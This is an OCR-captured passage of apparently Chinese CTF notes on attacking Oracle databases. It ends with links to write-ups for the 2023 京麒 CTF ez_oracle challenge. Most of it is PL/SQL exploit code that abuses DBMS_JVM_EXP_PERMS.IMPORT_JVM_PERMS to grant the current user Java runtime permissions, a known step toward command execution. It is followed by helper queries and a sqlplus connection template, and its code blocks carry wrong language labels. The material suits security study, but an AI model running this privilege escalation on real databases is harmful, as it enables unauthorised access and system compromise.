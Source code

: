 ```python
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 'GRANT',USER(),'SYS','java.lang.RuntimePermission','readFileDescriptor',NULL,'ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
```

## 一些其它的辅助语句

```python
SHOW ERRORS FUNCTION your_function_name;
```

排查创建函数时的错误

```python
SELECT OBJECT_NAME, OBJECT_TYPE
FROM ALL_OBJECTS
WHERE OBJECT_TYPE = 'FUNCTION' AND OWNER = 'system';
```

快速连接

```java
sqlplus username/password@ip:port/service_name
```


# 2023京麒ctf ez_oracle
[https://1llustrious.github.io/2023/12/22/%E4%BA%AC%E9%BA%92CTF%E8%A1%A5%E5%AE%8C%E8%AE%A1%E5%88%92/](https://1llustrious.github.io/2023/12/22/%E4%BA%AC%E9%BA%92CTF%E8%A1%A5%E5%AE%8C%E8%AE%A1%E5%88%92/)
[https://exp10it.io/2023/12/2023-%E4%BA%AC%E9%BA%92-ctf-ez_oracle-writeup/](https://exp10it.io/2023/12/2023-%E4%BA%AC%E9%BA%92-ctf-ez_oracle-writeup/)
[https://boogipop.com/2023/12/15/Oracle](https://boogipop.com/2023/12/15/Oracle)

